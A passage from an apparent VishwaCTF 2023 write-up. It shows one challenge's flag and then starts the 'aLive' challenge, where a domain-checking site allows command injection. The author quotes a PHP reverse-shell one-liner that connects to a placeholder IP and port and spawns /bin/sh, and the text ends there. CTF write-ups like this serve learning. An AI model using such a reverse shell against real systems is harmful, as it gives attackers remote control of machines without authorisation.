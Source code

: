 FLAG: `VishwaCTF{y0u_f-o-u-n-d_M3}`

---
### aLive
>In my college level project I created this website that tells us if any domain/ip is active or not. But
>there is a catch.

We have been given a webiste that checks if a website is active or not.

![alive](/assets/img/vishwaCTF2023/alive_01.png)

We can execute some command line commands like ls, but cat gives a error message, so I tried to get a
reverse shell from the input.
From pentestermonkey I grabed an php one liner:

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3>&3 2>&3");'
```
